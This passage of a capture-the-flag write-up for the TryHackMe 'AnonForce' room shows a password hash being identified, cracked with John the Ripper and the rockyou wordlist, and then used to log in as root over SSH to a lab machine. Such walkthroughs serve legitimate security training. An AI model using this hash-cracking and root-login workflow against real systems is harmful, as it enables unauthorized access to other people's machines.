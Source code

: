 ```sh
└─$ hash-identifier        
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0

Possible Hashs:
[+] SHA-256
--------------------------------------------------

```
- **Doesn't do anything here but its helpful to know**

### Decrypting hash by John
```sh
└─$ nano root2boot
                                        
┌──(***********)-[~/CTF{}/THM/AnonForce]
└─$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt root2boot
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
hikari           (?)     
1g 0:00:00:18 DONE (2024-07-28 09:02) 0.05488g/s 368.8p/s 368.8c/s 368.8C/s 98765432..BITCH
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
> ### Password : `hikari`

### SSH login

```sh
└─$ ssh root@10.10.45.31                                           
The authenticity of host '10.10.45.31 (10.10.45.31)' can't be established.
ED25519 key fingerprint is SHA256:+bhLW3R5qYI2SvPQsCWR9ewCoewWWvFfTVFQUAGr+ew.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:19: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.45.31' (ED25519) to the list of known hosts.
root@10.10.45.31's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;

root@ubuntu:~# ls
root.txt
```